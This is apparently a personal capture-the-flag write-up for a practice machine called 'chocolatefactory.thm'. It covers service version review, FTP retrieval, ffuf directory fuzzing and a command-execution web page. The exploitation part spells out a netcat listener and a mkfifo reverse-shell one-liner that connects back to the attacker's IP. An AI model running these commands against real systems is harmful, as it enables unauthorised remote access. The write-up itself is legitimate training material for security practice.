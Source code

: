 ```shell
sudo echo "10.10.225.54 chocolatefactory.thm" | sudo tee -a /etc/hosts
```

---
# Vulnerability analysis
## Port 22 - SSH
The version OpenSSH 7.6p1 is apparently vulnerable to user enumeration, but we need an active session
## Port 21 - FTP
The version vsftpd 3.0.3 is vulnerable to remote Dos, useless in this case.
## Port 80 - Apache
This version Apache httpd 2.4.29 is vulnerable to privilege escalation, could be important later.
![Pasted image 20241129105810.png](/img/user/attachments/Pasted%20image%2020241129105810.png)

---
# Exploitation
## Port 21 - FTP
Connect and get the file detailed by nmap above.
![Pasted image 20241129110653.png|600](/img/user/attachments/Pasted%20image%2020241129110653.png)
![Pasted image 20241129111021.png|400](/img/user/attachments/Pasted%20image%2020241129111021.png)
The image is apparently not relevant, but I toke note of some words:
doublemint, wrigley's, sugarfree fum
## Port 80 - Apache
The username enumerations is not possible
### Fuzzing
Try fuzzing subdirectories and files with extensions.
```shell
ffuf -c -t 100 -u http://chocolatefactory.thm/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -mc all -fc 404 -e .php,.html,.txt
```
![Pasted image 20241129151515.png](/img/user/attachments/Pasted%20image%2020241129151515.png)
### home.php
Go to the page, we can execute commands.
![Pasted image 20241129151611.png](/img/user/attachments/Pasted%20image%2020241129151611.png)
Try to send a reverse shell
1. Set the listener
```shell
rlwrap nc -lnvp 4747
```
2. Write the code and execute
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.6.2.59 4747 >/tmp/f
```
![Pasted image 20241129152148.png](/img/user/attachments/Pasted%20image%2020241129152148.png)
We receive the shell
![Pasted image 20241129152046.png](/img/user/attachments/Pasted%20image%2020241129152046.png)
Optionally you can [[Notes/Upgrading shell\|Upgrading shell]]

---